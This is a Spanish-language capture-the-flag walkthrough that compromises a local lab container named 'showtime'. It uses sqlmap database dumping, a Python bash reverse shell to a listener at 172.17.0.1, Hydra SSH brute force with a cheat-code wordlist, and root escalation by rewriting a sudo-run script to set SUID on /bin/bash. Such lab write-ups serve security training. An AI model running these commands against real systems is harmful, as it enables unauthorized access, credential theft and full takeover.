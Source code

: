 Desplegamos el contenedor:

```Bash
bash auto_deploy.sh showtime.tar
```

![Pasted image 20250216211018](https://github.com/user-attachments/assets/d5119ff9-f064-4123-9901-ca4ba78d7f84)

Escaneamos la IP:

```Bash
nmap -sV -sC -sS -T 5 -n -Pn -p- 172.17.0.2
```

![Pasted image 20250218091735](https://github.com/user-attachments/assets/8cc75d3b-d002-4840-801f-6763c72e5020)

Hacemos **Fuzzing**:

```Bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,php,py,sh,txt
```

Nos metemos en la web:

![Pasted image 20250218091931](https://github.com/user-attachments/assets/be5c522a-6286-4032-a207-9176b6fd9765)

Hacemos **SQL Injection**:

```Bash
sqlmap -u http://172.17.0.2/login_page/index.php --forms --dbs --batch
```

![Pasted image 20250218092529](https://github.com/user-attachments/assets/ce56c419-e434-4267-a5b7-e1302e8bddd3)

![Pasted image 20250218092656](https://github.com/user-attachments/assets/739d4a4b-8fba-47d0-ba7e-463ec47cebda)

```Bash
sqlmap -u http://172.17.0.2/login_page/index.php --forms -D users --tables --batch
```

![Pasted image 20250218092752](https://github.com/user-attachments/assets/c583fdb2-ff24-4a0f-83fc-b5610c5218eb)

![Pasted image 20250218092806](https://github.com/user-attachments/assets/62c113a7-ca5a-4107-abe8-1c46f49fe603)

```Bash
sqlmap -u http://172.17.0.2/login_page/index.php --forms -D users -T usuarios --columns --batch
```

![Pasted image 20250218092857](https://github.com/user-attachments/assets/4c4153d4-1f0c-42b9-a7bb-3ca380210b47)

![Pasted image 20250218092911](https://github.com/user-attachments/assets/f436dfb9-1441-4167-b779-376586e96508)

```Bash
sqlmap -u http://172.17.0.2/login_page/index.php --forms -D users -T usuarios -C id,password,username --dump --batch
```

![Pasted image 20250218092943](https://github.com/user-attachments/assets/c4f2fc6d-72ac-4029-b4ea-4f21727acba9)

![Pasted image 20250218092957](https://github.com/user-attachments/assets/9864c095-854a-4393-83b0-a8b78084286f)

![Pasted image 20250218093145](https://github.com/user-attachments/assets/46ef80a3-d868-460d-b9db-2b415d4d7ebc)

![Pasted image 20250218093220](https://github.com/user-attachments/assets/7d3618a5-a687-4bf7-927c-8cb91bc6bfcb)

Nos ponemos a la escucha con **netcat**:

```Bash
nc -lnvp 443
```

![Pasted image 20250218094005](https://github.com/user-attachments/assets/227ce5c5-6627-425d-a83d-38b579edf2c9)

```Python
import os
os.system("bash -c 'bash -i >& /dev/tcp/172.17.0.1/443 0>&1'")
```

![Pasted image 20250218093902](https://github.com/user-attachments/assets/b34da999-2c6a-4f3d-9c95-6c74301a341b)

Miramos en la shell:

![Pasted image 20250218093941](https://github.com/user-attachments/assets/408f483f-ace6-479d-95cd-c5f588861cca)

```Bash
cat /etc/passwd
```

![Pasted image 20250218094310](https://github.com/user-attachments/assets/343870ad-cba2-4a80-a1a8-582aa17d411d)

```Bash
ls -la /tmp
```

![Pasted image 20250218095339](https://github.com/user-attachments/assets/c4f1ab1c-9140-4b58-84bb-dcc37fdf6e3f)

```Bash
cat /tmp/.hidden_text.txt
```

![Pasted image 20250218095440](https://github.com/user-attachments/assets/8b16fabb-3879-451d-9e80-816b7128a2f5)

```Bash
nano users.txt
```

![Pasted image 20250218095703](https://github.com/user-attachments/assets/57bc72f2-a08a-487b-879f-0b07a9f9c4e3)

```Bash
joe
ubuntu
luciano
```

![Pasted image 20250218095747](https://github.com/user-attachments/assets/db901a35-bcf3-4223-a9f2-50f5a3b7c485)

```Bash
nano password.txt
```

![Pasted image 20250218095502](https://github.com/user-attachments/assets/6073c6ba-b838-4a78-bc42-e0356335cd48)

```Bash
HESOYAM
UZUMYMW
JUMPJET
LXGIWYL
KJKSZPJ
YECGAA
SZCMAWO
ROCKETMAN
AIWPRTON
OLDSPEEDDEMON
CPKTNWT
WORSHIPME
NATURALTALENT
BUFFMEUP
AEZAKMI
BRINGITON
FULLCLIP
CVWKXAM
OUIQDMW
PROFESSIONALSKIT
PROFESSIONALTOOLS
NINJATOWN
STINGLIKEABEE
GHOSTTOWN
BLUESUEDESHOES
SPEEDITUP
SLOWITDOWN
SLOWITDOWNBRO
BAGUVIX
CJPHONEHOME
SPEEDFREAK
BUBBLECARS
KANGAROO
CRAZYTOWN
EVERYONEISRICH
EVERYONEISPOOR
CHITTYCHITTYBANGBANG
FLYINGTOSTUNT
FLYINGFISH
MONSTERMASH
BIFBUZZ
WHEELSONLYPLEASE
SLOWMO
SPECIALK
JUMPJET
FLYINGTOSTUNT
FLYINGFISH
ASNAEB
BTCDBCB
KVGYZQK
HELLOLADIES
BGLUAWML
OSRBLHH
LJSPQK
VKYPQCF
SZCMAWO
ROCKETMAN
AIWPRTON
OLDSPEEDDEMON
CPKTNWT
WORSHIPME
NATURALTALENT
BUFFMEUP
BRINGITON
FULLCLIP
CVWKXAM
OUIQDMW
PROFESSIONALSKIT
PROFESSIONALTOOLS
NINJATOWN
STINGLIKEABEE
GHOSTTOWN
SPEEDITUP
SLOWITDOWN
SLOWITDOWNBRO
BAGUVIX
SPEEDFREAK
BUBBLECARS
```

![Pasted image 20250218095551](https://github.com/user-attachments/assets/511f0ca8-4c26-4e5a-a3e0-98ba5acb21d5)

Las haremos minúsculas:

```Bash
cat password.txt | tr '[:upper:]' '[:lower:]' > password-minus.txt
```

![Pasted image 20250218100106](https://github.com/user-attachments/assets/05e62ae4-0312-4a42-8fb1-855831fc6e8f)

```Bash
cat password-minus.txt
```


![[Pasted image 20250218100128.png]]

Fuerza Bruta con **Hydra**:

```Bash
hydra -L users.txt -P password-minus.txt ssh://172.17.0.2
```

![[Pasted image 20250218100349.png]]

Nos conectamos con **SSH**:

```Bash
ssh joe@172.17.0.2
```

![[Pasted image 20250218100328.png]]

Elevamos privilegios:

```Bash
sudo -l
```

![[Pasted image 20250218100409.png]]

```Bash
sudo -u luciano posh
```

![[Pasted image 20250218100650.png]]

```Bash
/bin/bash -i
```

![[Pasted image 20250218100702.png]]

```Bash
sudo -l
```

![[Pasted image 20250218100724.png]]

```Bash
cd /home/luciano
```

![[Pasted image 20250218100802.png]]

```Bash
ls -l script.sh
```

![[Pasted image 20250218100942.png]]

```Bash
cat script.sh
```

![[Pasted image 20250218100914.png]]

```Bash
echo -e '#!/bin/bash\nchmod u+s /bin/bash' > script.sh
```

![[Pasted image 20250218113207.png]]

```Bash
cat script.sh
```

![[Pasted image 20250218105112.png]]

```Bash
sudo -u root /bin/bash /home/luciano/script.sh
```

![[Pasted image 20250218113436.png]]

```Bash
bash -p
```

![[Pasted image 20250218113759.png]]

```Bash
whoami
```

![[Pasted image 20250218113858.png]]



